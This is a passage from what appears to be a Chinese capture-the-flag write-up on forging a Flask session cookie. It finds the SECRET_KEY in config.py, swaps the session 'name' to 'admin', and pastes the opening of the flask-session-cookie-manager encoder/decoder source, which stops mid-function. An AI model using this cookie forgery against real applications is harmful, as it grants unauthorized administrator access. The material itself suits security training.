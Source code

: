 4. 解密结果
![在这里插入图片描述](https://img-blog.csdnimg.cn/935174dbc4d346208717a8b14e56849d.png)
5. >但是如果我们想要加密伪造生成自己想要的session还需要知道SECRET_KEY，然后我们在config.py里发现了SECRET_KEY 
![在这里插入图片描述](https://img-blog.csdnimg.cn/02bfa3d5b7e04bf0ba40401c4e39d967.png)

6. 替换`name`为`admin`进行加密
>https://github.com/noraj/flask-session-cookie-manager


```python
#-----------session加密---------

#!/usr/bin/env python3
""" Flask Session Cookie Decoder/Encoder """
__author__ = 'Wilson Sumanang, Alexandre ZANNI'

# standard imports
import sys
import zlib
from itsdangerous import base64_decode
import ast

# Abstract Base Classes (PEP 3119)
if sys.version_info[0] < 3: # < 3.0
    raise Exception('Must be using at least Python 3')
elif sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    from abc import ABCMeta, abstractmethod
else: # > 3.4
    from abc import ABC, abstractmethod

# Lib for argument parsing
import argparse

# external Imports
from flask.sessions import SecureCookieSessionInterface

class MockApp(object):

    def __init__(self, secret_key):
        self.secret_key = secret_key


if sys.version_info[0] == 3 and sys.version_info[1] < 4: # >= 3.0 && < 3.4
    class FSCM(metaclass=ABCMeta):
        def encode(secret_key, session_cookie_structure):
            """ Encode a Flask session cookie """
            try:
                app = MockApp(secret_key)

                session_cookie_structure = dict(ast.literal_eval(session_cookie_structure))
                si = SecureCookieSessionInterface()
                s = si.get_signing_serializer(app)

                return s.dumps(session_cookie_structure)
            except Exception as e:
                return "[Encoding error] {}".format(e)
                raise e


        def decode(session_cookie_value, secret_key=None):
            """ Decode a Flask cookie  """
            try:
                if(secret_key==None):
                    compressed = False
```